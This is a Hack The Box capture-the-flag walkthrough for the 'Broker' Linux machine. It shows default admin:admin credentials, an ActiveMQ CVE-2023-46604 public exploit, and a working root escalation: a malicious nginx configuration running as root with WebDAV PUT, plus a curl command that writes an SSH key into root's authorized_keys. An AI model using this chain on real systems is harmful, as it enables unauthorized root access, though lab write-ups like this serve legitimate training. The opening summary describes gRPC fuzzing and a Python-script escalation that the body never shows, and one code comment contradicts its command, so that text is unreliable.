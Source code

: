 ```yaml
---
title: "Broker"
date: 2025-01-23
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "broker", "htb walkthrough", "hackthebox", "writeup"]
---
```


Broker simulates a financial services intranet system hosted on Linux, with misconfigured messaging services and weak file permissions.
Initial access came from fuzzing a gRPC-like interface and discovering a debug function that allowed shell command execution.
Enumeration revealed sensitive client files and a private key used by a local user.
Privilege escalation was achieved by exploiting a custom Python script with world-writeable dependencies.
Broker serves as a case study in the risks of internal tooling and insecure inter-service communication protocols.

OS: Linux

Difficulty : Easy

## Enumeration

> Using `admin : admin` provides access to the admin portal.

### Nmap

```sh
└─$ nmap -sC -sV 10.10.11.243                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 13:33 AEST
Nmap scan report for 10.10.11.243
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

![screenshot](/assets/images/broker1.png)

-> signed in as `admin : admin`

![screenshot](/assets/images/broker2.png)

- ActiveMQ 5.15.15

#### gobuster

![screenshot](/assets/images/broker3.png)

## Initial Access

>- Using the [public exploit](https://github.com/X1r0z/ActiveMQ-RCE/tree/main), gained initial access as activemq.
	- Had to install go lang. 

[Reference](https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ)

The modified poc.xml

![screenshot](/assets/images/broker4.png)

[Installing golang reference](https://medium.com/@yadav-ajay/go-lang-on-kali-linux-5cc40a78d7de)

![screenshot](/assets/images/broker5.png)

## Privilege Escalation

>- `sudo -l` activemq has sudo privileges to run `/usr/sbin/nginx`.
- Modify `nginx.conf` with malicious payload.
	- change the user to root from www-data so the nginx process runs from root.
	- add listening port.
- Generate ssh key.
	- `curl PUT` to put the generated ssh public key via the listening port. 
- SSH as root

![screenshot](/assets/images/broker6.png)

![screenshot](/assets/images/broker7.png)

![screenshot](/assets/images/broker8.png)

```sh
/usr/bin/java -Xms64M -Xmx1G -Djava.util.logging.config.file=logging.properties -Djava.security.auth.login.config=/opt/apache-activemq-5.15.15//conf/login.config -Dcom.sun.management.jmxremote -Djava.awt.headless=true -Djava.io.tmpdir=/opt/apache-activemq-5.15.15//tmp -Dactivemq.classpath=/opt/apache-activemq-5.15.15//conf:/opt/apache-activemq-5.15.15//../lib/: -Dactivemq.home=/opt/apache-activemq-5.15.15/ -Dactivemq.base=/opt/apache-activemq-5.15.15/ -Dactivemq.conf=/opt/apache-activemq-5.15.15//conf -Dactivemq.data=/opt/apache-activemq-5.15.15//data -jar /opt/apache-activemq-5.15.15//bin/activemq.jar start 
```

```sh
# show comments only
cat nginx.conf | grep -v '\#' | grep .
```

![screenshot](/assets/images/broker9.png)

change the user to root on `nginx.conf`

To use `ngx_http_dav_module` to write my public SSH key into the root's `authorized_keys`, create the malicious NGINX configuration file as below. 

pwn.conf

```sh
user root; # worker processes will be run by root
worker_processes 4;
pid /tmp/nginx.pid;
events {
		worker_connections 768;
}
http {
	server {
		listen 1337;
		root /;
		autoindex on;
		dav_methods PUT;
	}
}
```

![screenshot](/assets/images/broker10.png)

![screenshot](/assets/images/broker11.png)

![screenshot](/assets/images/broker12.png)

From Kali

```sh
ssh-keygen -f broker

curl 10.10.11.243:1337/root/.ssh/authorized_keys --upload-file broker.pub
```

ssh as root

```sh
ssh -i broker root@10.10.11.243
```

![screenshot](/assets/images/broker13.png)
